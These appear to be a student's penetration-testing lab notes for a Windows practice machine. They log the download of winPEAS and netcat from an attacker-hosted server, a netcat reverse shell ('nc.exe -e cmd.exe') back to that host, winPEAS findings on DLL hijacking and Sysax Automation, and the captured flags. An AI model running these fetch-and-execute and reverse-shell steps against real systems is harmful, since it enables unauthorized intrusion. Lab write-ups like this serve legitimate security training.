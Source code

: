 

Upload winpeas to privexac
![[{FBE9B7D0-7716-48DF-B715-B75BB8173904}.png]]
![[{35C2E3A7-2181-4F47-BEE1-513AE6253056}.png]]

```
Control-C
PS C:\Users\clinton\Desktop> Invoke-WebRequest -Uri "http://192.168.49.114:8000/winPEASx64.exe" -OutFile "C:\Users\clinton\Desktop\winPEASx64.exe"

C:\Users\clinton\Desktop>powershell                                                                                                                                                                                                         
powershell                                                                                                                                                                                                                                  
Windows PowerShell                                                                                                                                                                                                                          
Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                                                                                                   
                                                                                                                                                                                                                                            
Try the new cross-platform PowerShell https://aka.ms/pscore6                                                                                                                                                                                
                                                                                                                                                                                                                                            
PS C:\Users\clinton\Desktop> ls                                                                                                                                                                                                             
ls                                                                                                                                                                                                                                          


    Directory: C:\Users\clinton\Desktop


Mode                 LastWriteTime         Length Name                                                                      
----                 -------------         ------ ----                                                                      
-a----          6/9/2025  12:42 PM              0 Invoke-WebRequest                                                         
-a----          6/8/2025   7:09 PM             34 local.txt                                                                 
-a----          6/9/2025  12:40 PM          59392 nc.exe                                                                    
-a----          6/9/2025  12:26 PM       10144256 winPEASx64.exe                                                            


PS C:\Users\clinton\Desktop> ./winPEASx64.exe
./winPEASx64.exe

```

upload nc 

![[{4F7ECB5A-4CDF-46BA-B1F7-018625572A69}.png]]
```
Invoke-WebRequest -Uri "http://192.168.49.114:8000/nc.exe" -OutFile "C:\Users\clinton\Desktop\nc.exe"

PS C:\Users\clinton\Desktop> Invoke-WebRequest -Uri "http://192.168.49.114:8000/nc.exe" -OutFile "C:\Users\clinton\Desktop\nc.exe"
PS C:\Users\clinton\Desktop> .\nc.exe -e cmd.exe 192.168.49.114 443
PS C:\Users\clinton\Desktop> .\nc.exe -e cmd.exe 192.168.49.114 443

```
![[{62C82FFE-B8E8-4BC9-8698-F8EA9E61DA82}.png]]

![[{2475632E-322C-4B37-AEFB-529479F96425}.png]]

![[{970425CB-440A-4D95-87BC-2FE15B6ABB3C}.png]]
```

C:\Users\clinton\Desktop>whoami
whoami
oscp\clinton

C:\Users\clinton\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.114.111
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.114.254

C:\Users\clinton\Desktop>type local.txt 
type local.txt
7914ab71cb725e5c47f2d2c23489c36d

```


# winpeas

```

    OneDrive(6828)[C:\Users\clinton\AppData\Local\Microsoft\OneDrive\OneDrive.exe] -- POwn: clinton
    Permissions: clinton [AllAccess]
    Possible DLL Hijacking folder: C:\Users\clinton\AppData\Local\Microsoft\OneDrive (clinton [AllAccess])
    Command Line: "C:\Users\clinton\AppData\Local\Microsoft\OneDrive\OneDrive.exe" /background


����������͹ Checking write permissions in PATH folders (DLL Hijacking)
� Check for DLL Hijacking in PATH folders https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\
    C:\Program Files (x86)\SysaxAutomation\


```

https://www.exploit-db.com/exploits/50834

# sysaxAutomation 

![[{F49A3AA9-DAB1-4244-862E-CAFCCF4C0D8F}.png]]

![[{DC71FD25-E0C5-4D0E-AE63-C065CB643E27}.png]]

![[{C649BD2E-1DD7-46F7-9632-4206AA0DC576}.png]]

![[{7AFC6502-28C3-4E7F-AA81-9115A5AA4F4D}.png]]


![[{4A01A13E-7748-4D64-B614-A2F4F3F2152C}.png]]

![[{AC0D0194-BD36-4F57-A5CD-5CF78179AFAF}.png]]

![[{742A0094-B54F-4002-A327-4FBD13822002}.png]]

![[{2D3E7F01-1362-4002-962D-F731A1A8F64F}.png]]

![[{A9FDE34E-0AD4-44F9-ADF9-D1B3E8153096}.png]]

![[{D921C9D0-1AD7-451D-A5C7-6B9771F22CFD}.png]]

![[{5907DDC4-5631-4FD8-9440-6459CC11A34A}.png]]

![[{8B7E31E0-7A80-4AC0-A4F4-73117C256D3D}.png]]

![[{4BBAA73B-96EF-4652-811F-0A64F2454322} 1.png]]

PROOF
dcc198fcab45e2a20365a51b8e67c011 

![[{3C4F8EA7-33FD-4769-9D1C-631AA8DB3B18}.png]]
